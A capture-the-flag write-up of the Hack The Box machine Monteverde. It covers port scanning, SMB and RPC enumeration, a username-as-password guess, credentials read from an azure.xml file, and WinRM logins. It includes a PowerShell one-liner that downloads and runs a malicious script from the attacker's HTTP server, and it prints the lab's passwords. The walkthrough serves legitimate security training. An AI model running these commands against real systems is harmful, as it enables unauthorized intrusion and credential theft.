

# [Monteverde](https://app.hackthebox.com/machines/Monteverde)

```bash
nmap -p- --min-rate 10000 10.10.10.172 -Pn
```


Maybe it is Domain Controller, let's do greater nmap scan for open ports.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 10.10.10.172 -Pn
```


I first enumerate SMB share, but it is restricted. (Also, doesn't allow for `guest` user.)

```bash
smbmap -H 10.10.10.172 
```


Let's try to enumerate RPC.

```bash
rpcclient -U "" -N 10.10.10.172
querydispinfo
```


I grab account names from here as users.txt file.


Let's try to do brute-force to find the user which uses password as his or her username.

I check this manually.

```bash
smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs'
```


Hola, it worked for '**SABatchJobs**' user.


Let's login into 'users$' share.

```bash
smbclient -U '10.10.10.172\SABatchJobs' //10.10.10.172/users$
```

And I find sensitive info which located in file called 'azure.xml' file on the directory of '**mhope**' user.


mhope: 4n0therD4y@n0th3r$


Let's login into machine via this credentials.

```bash
evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$ 
```

user.txt




I just enumerate this user via `net user mhope` command and see that this user belongs to **'Azure Admins'** group.


And I find such a [blog](https://blog.xpnsec.com/azuread-connect-for-redteam/) for privilege escalation.


Let's upload this malicious script into machine.

First, open HTTP server.

```bash
python3 -m http.server --bind 10.10.16.3 8080
```


Then download this script into target machine.
```bash
iex(new-object net.webclient).downloadstring('http://10.10.16.3:8080/malscript.ps1')
```


I got credentials of 'administrator' user.

administrator: d0m@in4dminyeah!


Let's login via `evil-winrm`.

```bash
evil-winrm -i 10.10.10.172 -u administrator -p d0m@in4dminyeah! 
```

root.txt

